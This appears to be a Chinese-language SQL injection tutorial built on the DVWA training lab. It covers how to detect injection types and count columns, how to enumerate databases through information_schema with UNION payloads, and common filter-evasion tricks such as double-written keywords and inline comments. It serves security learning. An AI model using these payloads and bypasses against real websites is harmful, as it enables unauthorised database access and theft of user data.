


# 1. 概述

在实际工作中，大部分情况是是使用相关工具进行扫描，然后手工测试，所以本文的重点在于**掌握sql注入的原理，不同数据库下sql注入的方式，以及注入的流程**。

- 一句话说明什么是sql注入：

  所谓sql注入，就是测试者把sql命令插入到web表单的输入框或者页面请求的查询字符串**，欺骗服务器执行恶意的sql命令**，从而暴露数据库信息，造成数据泄漏问题。

- 为什么会存在sql注入问题：

  很多没有安全意识的web应用程序，会**直接利用用户输入的参数动态的生成sql**进行查询，并没有对用户输入的参数进行预处理，从而导致攻击者**通过不同的方法利用此漏洞，改变sql原本的查询属性**，从而直接访问数据库。

- 如何判断web应用程序中什么位置可能存在sql注入问题：

  一般来说，web应用获取数据的地方，都有可能存在sql注入问题，这些地方通常包括如下地方：

  - GET数据
  - POST数据
  - HTTP头部（HTTP请求报文其他字段）
  - Cookie数据

- sql注入问题能够造成那些问题：

  - 获取数据库信息，如管理员后台密码，从而造成用户信息泄漏
  - 对数据库中的数据进行更改，从而修改网页内容
  - 服务器被远程控制，被安装后门。
  - 可以对数据库的数据进行增加或删除操作，例如私自添加或删除管理员账号。

# 2. 入门级原理剖析

本次示例采用dvwa初级难度靶场sql注入测试

1. 源码

   ```php
   $query = "select first_name,last_name from users where user_id = '$id';"
   ```

2. 判断SQL注入的类型为字符型还是数字型

   - `1' and '1' = '1` 和 `1' and '1' = '2`如果回显不同，则表示为字符型注入
   - `1 and 1 = 1` 和 `1 and 1 = 2` 如果回显不同，则表示为数字型注入

3. 结论

   通过如上方式获取到了user_id为1用户的名称

结果：



# 3. 常用注入手段——以MySql为例

- **判断注入类型**

  - 数字型

    指sql条件的两边没有被单引号或者双引号包裹。例如：`age = 12`

  - 字符型

    与数字型刚好相反，数据的两边会被单引号或者双引号包裹。例如：`age = "12"`

- **判断字段数量**

  方法1：`order by`

  - 关键点：`order by + 数字 +#`

  - 示例：`1' order by 1# `

  - 完整SQL：

    ```sql
    select first_name,last_name from users where user_id = '1' order by 1#;
    ```

  - 说明：查看执行结果，如果未出现错误，则可以逐渐增大`order by `后面数字值，直至报错，此时则表示查询的字段数量为你当前输入order by后面数字减一的值

  - 正常情况：

  

  - 超过字段长度情况：

    ```
    Unknown column '3' in 'order clause'
    ```

    结论：此条SQL语句查询两个字段

  方法2：`union`关键字

  - 关键点：`1' union select 1,2#`

  - 完整SQL：

    ```sql
    select first_name,last_name from users where user_id = '1' union select 1,2#;
    ```

  - 说明：

    通过不断往select后面添加数字，测试查询的字段数量

  - 正常情况：

    

  - 不正常情况

    ```
    The used SELECT statements have a different number of columns
    ```

- **查询当前数据库与版本信息**

  - 关键点：通过执行mysql内置函数，获取数据库名称与版本信息

  - 语法：`version() `，`database()`

  - 示例：

    

- **获取数据库中的信息**

  mysql版本5.0以上默认存在一个`information_schema`的数据库，它提供了访问数据库元数据的方式

  > 元数据：数据是关于数据的数据，如数据库名或表名，列的数据类型，或访问权限等。

  `information_schema`中保存着关于MySQL服务器所维护的所有其他数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权限等。

  内部的表可以自行百度，这里不再一一说明，仅关注几个比较重要的表

  - TABLES表：提供了关于数据库中的表的信息（包括视图）。详细表述了某个表属于哪个

    重点字段：`TABLE_NAME`、`TABLE_SCHEMA`

  - COLUMNS表：提供了表中的列信息。详细表述了某张表的所有列以及每个列的信息

    重点字段：`COLUMN_NAME`、`TABLE_SCHEMA`、`TABLE_NAME`

  示例：根据`information_schema`数据库查询表信息

  语法：

  ```sql
  1' union select 1,group_concat(hex(table_name)) from information_schema.tables where table_schema = database()#
  ```

  

  > 说明：dvwa靶场内的表默认是utf8_unicode_ci，而information_schema表的编码是utf8_general_ci，所以需要通过mysql内置函数hex编码为统一的格式，然后将上述结果使用hex编码在进行解码即可
  >
  > **hex()：将目标字符串装换成16进制格式的数据**

  解码结果：

  ```
  7573657273 --->  users
  6775657374626F6F6B --->   guestbook 
  ```

  说明：可以根据`information_schema`表进行获取很多内容，比如，获取数据库，获取表名，获取字段名等

# 4. 其他常用注入手段


## 4.1 Error注入

如果union被过滤，可以使用基于错误的注入攻击，一般利用floor，updatexml, extractvalue函数、还有exp和一些几何函数


## 4.2 Boolean注入

基于布尔判断的攻击


## 4.3 Time注入

基于时间的攻击，利用if、sleep、benchmark、get_lock等函数，使用`rpad`或`repeat`构造长字符串，加RLIKE，利用多个大表的笛卡尔积。

## 4.4 Stack注入（堆叠）

基于堆叠的注入是需要后台代码是允许执行多条sql语句的，例如：php中是使用PDO方式执行多条语句。

堆叠注入攻击可以执行多条语句，多语句之间以**分号**隔开。利用这个特点可以在后面的语句中构造自己要执行的语句。

## 4.5 inline Query绕过注入

内联查询注入

## 4.6 宽字节绕过注入

宽字节是在一些特定的编码，如GBK中才有的，编码将两个字节认为是一个汉字（前一个字符ascii码要大于128，才到汉字的范围）。addslashes函数为了防止sql注入，将传入参数值进行转义，将' 转义为\'，单引号失去作用。因此，我们需要将`\`给绕过，这样才可以加`'`号。

## 4.7 数字型注入

数字型注入的最大特点是，参数为数字，一般为id

## 4.8 字符型注入

将参数以字符或字符串形式读入，通过闭合+注释的方式来进行SQL注入，一般是'或"，或者结合()。

# 5. 简易绕过防SQL注入

- 大小写绕过
  sql语句对一些关键词不区分大小写，如果网站代码没有进行大小写检查可以使用

  ```sql
  UniOn select * from user
  ```

- 双写绕过
  网站代码找到关键词后删除，可以通过双写构造删除后符合语法的sql语句

  ```sql
  selselectect * from user
  ```

- 内联注释
  mysql扩展功能，在/*后加惊叹号，注释中的语句会被执行

  ```sql
  and /*!select * from user*/
  ```

- 注释符绕过
  注释符不影响语句的连接，

  ```sql
  sel/**/ect * from user
  ```

- or/and绕过
  使用逻辑符号代替：and = &&, or = ||

  ```sql
  select * from emp where sal > 500 && sal < 3000;
  ```

- 空格绕过
  有的网站过滤了空格，可以尝试使用

  ```
  %0a、%b、%0c、%0d、%09、%a0
  /**/、()
  ```

  例如：

  ```sql
  select * from/**/emp where (sal) > 500 && sal < 3000;
  ```

  等于

  ```sql
   select * from emp where sal > 500 and sal < 3000;
  ```

  